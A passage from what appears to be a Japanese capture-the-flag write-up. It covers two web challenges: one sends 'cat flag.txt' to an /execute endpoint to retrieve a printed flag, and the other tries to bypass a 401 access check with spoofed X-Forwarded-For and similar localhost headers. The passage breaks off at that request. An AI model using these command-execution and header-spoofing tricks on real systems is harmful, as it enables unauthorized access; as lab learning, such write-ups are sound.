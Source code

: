 ```html
<script>
    function addPost(event) {
        event.preventDefault();
        const post_in = document.getElementById('post_input').value;
        
        if (post_in.startsWith('cat flag.txt')) {
            fetch('/execute', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                body: `post_input=${encodeURIComponent(post_in)}`
            })
            .then(response => response.text())
            .then(result => {
                const contentSection = document.querySelector('.content');
                const newPost = document.createElement('div');
                newPost.classList.add('post');
                newPost.innerHTML = `<h3>Flag Post</h3><p>${result}</p>`;
                contentSection.appendChild(newPost);
            });
        } else {
            const contentSection = document.querySelector('.content');
            const newPost = document.createElement('div');
            newPost.classList.add('post');
            newPost.innerHTML = `<h3>User Post</h3><p>${post_in}</p>`;
            contentSection.appendChild(newPost);
        }
    }
</script>
```

`post_input`に`cat flag.txt`を入力すると、POSTリクエストが送られ、フラグを取得できました。

- Flag

```text
KCTF{Fram3S_n3vE9_L1e_4_toGEtH3R}
```

### README

305 points / 40 solves

与えられたURLにアクセスすると、text.txtとflag.txtへのリンクがあります。  
`/fetch?file=text.txt`にアクセスすると、text.txtの内容が表示されますが、`/fetch?file=flag.txt`にアクセスすると、401エラーが返ってきます。  
とりあえずアクセス制御がかかっているようなので、ヘッダをいろいろ試してみます。

```http
GET /fetch?file=flag.txt HTTP/1.1
Host: 66.228.53.87:8989
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: */*
Referer: http://66.228.53.87:8989/
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
```